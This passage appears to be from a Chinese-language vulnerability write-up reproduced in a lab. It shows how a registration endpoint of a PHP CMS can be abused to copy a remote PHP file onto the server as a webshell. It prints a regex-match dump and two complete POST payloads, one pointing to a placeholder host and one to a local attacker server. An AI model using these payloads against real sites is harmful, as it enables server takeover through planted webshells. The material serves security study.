 ```php
array(5) {
  [0]=>
  array(1) {
    [0]=>
    string(28) "src=http://a.com/a.php#a.jpg"
  }
  [1]=>
  array(1) {
    [0]=>
    string(3) "src"
  }
  [2]=>
  array(1) {
    [0]=>
    string(0) ""
  }
  [3]=>
  array(1) {
    [0]=>
    string(24) "http://a.com/a.php#a.jpg"
  }
  [4]=>
  array(1) {
    [0]=>
    string(3) "jpg"
  }
}
```

最后利用`$upload_func($file, $newfile)`调用了`copy`从远程端拷贝文件到本地,因此成功在本地保留webshell

```
http://192.168.241.130:8080/index.php?m=member&c=index&a=register&siteid=1

POST: dosubmit=1&username=123&nickname=123&email=a@a.com&password=123456&modelid=1&info[content]=src=http://a.com/a.php#a.jpg
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203131729565.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203131730051.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203131731608.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203131731573.png)

本地测试payload

```
http://192.168.241.130:8080/index.php?m=member&c=index&a=register&siteid=1

POST: dosubmit=1&username=123&nickname=123&email=a@a.com&password=123456&modelid=1&info[content]=src=http://192.168.241.1:8000/a.php#a.jpg
```
